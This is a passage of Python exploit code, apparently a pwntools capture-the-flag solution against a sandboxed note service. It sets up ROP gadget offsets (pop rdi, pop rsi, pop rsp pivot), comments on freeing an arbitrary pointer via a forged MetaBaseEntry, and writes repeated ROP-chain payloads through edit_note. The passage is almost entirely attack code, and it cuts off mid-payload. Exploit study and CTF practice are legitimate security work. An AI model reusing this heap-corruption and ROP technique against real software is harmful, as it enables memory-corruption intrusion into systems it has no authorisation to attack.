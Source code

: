 ```python
    0x0, 0x0,
    0x0, 0x31,
    0x0, 0x0,
    0x0, 0x31,
    0x0, 0x0,
    0x0, 0x51,
    0x0, 0x0,
    0x0, 0x51,
    0x0, 0x0,
    0x0, 0x1f1,
    0x0, 0x0,
    0x0, 0x1f1,
)
get_feedback(payload)

# feedback_chunk = 0xdeadbeef

# struct of MetaBaseEntry:
# 0x00: meta -> we want to free this arbitrary pointer
# 0x08: rax -> we need to manipulate this to pass the checks

pop_rdi = library_runner.address + 0x000000000004a2d9
pop_rsi_rbp = library_runner.address + 0x0000000000031c83
pop_rsp_rbp = library_runner.address + 0x000000000002cbab
pop_rdx = library_runner.address + 0x000000000004a4b2 # pop rdx ; and dh, bh ; dec ecx ; ret
pop_rbx_r12 = library_runner.address + 0x0000000000051a56
if args.LOCAL and not args.DOCKER:
    return_to = heap + 0x7ef3f0 # above  (sandbox::ExportedFunction<bool>::operator()(void*)+102) in gdb
else:
    return_to = heap + 0x7ef450 # above  (sandbox::ExportedFunction<bool>::operator()(void*)+102) in gdb

for i in range(7):
    payload = flat(
        pop_rdi + 1,
        pop_rdi, 0x4000,
        pop_rsi_rbp, 
        feedback_chunk + 0x10 + 0x20 * (i + 1),
        heap + 0x7ef380, # saved rbp from gdb
        pop_rbx_r12, 0xfffffffffffffff, 0xdeadbeef,
        pop_rdx, 0x800,
        try_alloc,
        pop_rsp_rbp, return_to
    )
    edit_note(0, payload)

payload = flat(
    pop_rdi + 1,
    pop_rdi, 0x4000,
    pop_rsi_rbp, 
    feedback_chunk,
    heap + 0x7ef380, # saved rbp from gdb
    pop_rbx_r12, 0xfffffffffffffff, 0xdeadbeef,
    pop_rdx, 0x800,
    try_alloc,
    pop_rsp_rbp, return_to
)
edit_note(0, payload)

payload = flat(
    pop_rdi + 1,
    pop_rdi, 0x4000,
```